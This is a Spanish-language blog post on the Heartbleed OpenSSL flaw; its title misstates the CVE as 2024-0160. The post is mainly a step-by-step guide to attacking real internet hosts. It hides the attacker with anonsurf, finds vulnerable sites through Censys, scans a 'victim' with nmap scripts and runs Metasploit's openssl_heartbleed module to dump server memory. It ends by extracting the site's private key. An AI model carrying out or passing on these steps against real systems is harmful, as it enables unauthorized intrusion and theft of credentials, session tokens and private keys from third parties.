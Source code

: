 ```yaml
---
layout: single
title: Explotación de CVE-2024-0160 - Vulnerabilidades
excerpt: "Heartbleed, mejor conocida como CVE-2014-0160 es una vulnerabilidad que permite a un atacante leer hasta 64 Kb de memoria por ataque en cualquier cliente o servidor conectado."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2014-0160/cve-2014-0160.png
  teaser_home_page: true
  icon: /assets/images/heartbleed.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2014-0160
  - heartbleed
  - openSSL
  - censys
  - metasploit
  
---
```


![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-0160.png)

## Descripción:

CVE-2014-0160, o "Heartbleed", no es un problema en SSL / TL específicamente, sino que fue un problema de implementación en OpenSSL que afecta a las versiones 1.0.1 a 1.0.1f. Puede solucionarse actualizando a una versión más reciente de OpenSSL o compilando alternativamente con la opción -DOPENSSL_NO_HEARTBEATS. No requiere un Man-in-the-Middle para explotar y puede ser explotado tanto contra el servidor como contra el cliente. El problema permite a un atacante extraer hasta 64 kb de memoria del sistema vulnerable, lo que puede conducir al robo de credenciales, tokens de sesión y claves privadas del servidor.

## Explotaciòn:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato.

• Anonsurf start

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01602.png)

Realizamos la búsqueda den Censys de un sitio vulnerable.

• https://censys.io/

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01603.png)

Luego de detectar la dirección IP de una victima realizamos un escaneo con nmap vara validar si es vulnerable.

• nmap -p 443 --script = ssl-heartbleed <URL> para HEARTBLEED

• nmap -sV --version-light --script ssl-poodle -p 443 <URL> para POODLE

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01604.png)

Utilizamos un modulo axuliar de metasploit, ingresamos la ip, puerto y seleccionamos modo DUMP para extraer información de la memoria del sitio., finalmente ejecutamos el exploit.

• msfconsole

• usar auxiliar / escáner / ssl / openssl_heartbleed msf auxiliar

• set RHOSTS <IP O URL VICTIMA>

• set RPORT 443

• set VERBOSE true

• set action DUMP

• exploit

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01605.png)

Observamos que nos trae 65 Kb de información de la memoria del sitio.

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01606.png)

Cambiamos el modo de ataque para que nos extraiga claves que tenga y lo ejecutamos de nuevo.

• set action KEYS

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01607.png)


Finalmente bbtenemos la clave privada del sitio.

![](/assets/images/vulnerabilidades/cve-2014-0160/cve-2014-01608.png)

## Referencias:

• https://heartbleed.com/

• https://www.welivesecurity.com/la-es/2014/04/09/5-cosas-debes-saber-sobre-heartbleed/

